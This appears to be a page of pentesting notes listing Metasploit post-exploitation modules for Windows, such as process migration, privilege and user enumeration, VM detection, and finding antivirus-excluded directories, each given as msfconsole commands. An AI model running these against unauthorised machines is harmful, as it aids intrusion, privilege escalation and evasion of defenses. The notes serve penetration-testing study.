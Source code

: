 #### Windows Post Exploitation Module:

```msfconsole
use post/windows/manage/migrate
set SESSION <session-id>
run
```

> This module can be used to create a new process and then migrate into it. If you already have migrated then this would not work.

```msfconsole
use post/windows/gather/win_privs
show options
set SESSION <session-id>
run
```

> This is list out all the privileges that the current exploitered user have.

```
use post/windows/gather/enum_logged_on_users
show options
set SESSION <session-id>
run
```

> This will list all the currently and recently logged on users.

```msfconsole
use post/windows/gather/checkvm
show options
set SESSION <session-id>
run
```

> This will tell us weather that machine is a VM or not.

```msfconsole
use post/windows/gather/enum_applications
show options
set SESSION <session-id>
run
```

> This lists down all the application and their respective versions installed on the machine so that they can be used to further exploit and elevate the privileges.

```msfconsole
use post/windows/gather/enum_av_excluded
show options
set SESSION <session-id>
run
```

> This module can be used to list out all the directories that are currently not looked after by the AV or the Win Defender.

```msfconsole
use post/windows/gather/enum_computers
show options
set SESSION <session-id>
run
```
